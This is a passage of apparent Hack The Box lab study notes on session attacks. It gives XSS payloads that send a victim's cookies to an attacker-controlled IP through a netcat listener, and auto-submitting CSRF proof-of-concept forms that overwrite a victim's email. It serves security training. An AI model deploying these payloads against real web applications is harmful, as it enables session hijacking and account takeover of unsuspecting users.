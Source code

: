 * If we login as a victim for given webapp, and navigate to ```http://xss.htb.net/profile?email=ela.stienen@example.com``` (attacker-crafted profile, containing link to the profile tampered with previously - the link is found from the 'Share' function), we can see that the PHP server captures the request; the victim's cookie would be logged in the 'cookieLog.txt' file

* Instead of the cookie logging script, we can also use netcat - ```nc -nvlp 8000``` - and a payload like ```<h1 onmouseover='document.write(`<img src="http://10.10.120.14:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>``` or ```<script>fetch(`http://10.10.120.14:8000?cookie=${btoa(document.cookie)}`)</script>``` can be used; the cookie value can be later decoded using ```atob()``` function

## Cross-Site Request Forgery

* CSRF/XSRF attacks use malicious requests to perform unwanted functions on victim's behalf

* Webapp is vulnerable to CSRF if all parameters required for target request can be determined/guessed, and session management is solely based on HTTP cookies (and included in requests)

* To exploit a CSRF vulnerability, while the victim is logged into the app, we need to craft a malicious webpage that issues a valid cross-site request impersonating the victim

* For given webapp, we can intercept a request which shows that no anti-CSRF tokens are being used

* To test an attack, we can serve an HTML page including fields from our sample webapp - host it using ```python3 -m http.server 8000```:

  ```html
  <html>
    <body>
      <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
        <input type="hidden" name="email" value="attacker@htb.net" />
        <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
        <input type="hidden" name="country" value="CSRF_POC" />
        <input type="submit" value="Submit request" />
      </form>
      <script>
        document.getElementById("submitMe").submit()
      </script>
    </body>
  </html>
  ```

* Now, while we are logged in as victim in given webapp, we can open a new tab and visit the page we are hosting at ```http://10.10.120.14:8000/notmalicious.html``` - we can see that the victim profile details change to the one specified in above HTML code, because of this cross-site request

* CSRF (GET-based):

  * for given app, when we intercept the request for the 'Save' function, we can see that CSRF token is included in GET request:

    ```text
    GET /app/save/julie.rogers@example.com?telephone=%28834%29-609-2003&country=United+States&csrf=7a2ee594d11367dee8ef7c7de71efd7c145f4c73&email=julie.rogers%40example.com&action=save HTTP/1.1
    ```

  * we can start by serving a crafted HTML page, based off the fields included in the GET request, like done previously - the CSRF token has to be the same as the intercepted request:

    ```html
    <html>
      <body>
        <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
          <input type="hidden" name="email" value="attacker@htb.net" />
          <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
          <input type="hidden" name="country" value="CSRF_POC" />
          <input type="hidden" name="action" value="save" />
          <input type="hidden" name="csrf" value="7a2ee594d11367dee8ef7c7de71efd7c145f4c73" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          document.getElementById("submitMe").submit()
        </script>